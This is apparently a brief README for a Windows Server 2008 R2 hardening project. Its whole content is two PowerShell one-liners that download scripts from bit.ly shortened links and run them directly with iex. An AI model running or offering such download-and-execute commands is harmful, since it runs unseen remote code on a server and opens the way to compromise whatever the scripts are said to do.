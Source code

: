 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/36qZxOg')"

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2MPMyhq')"
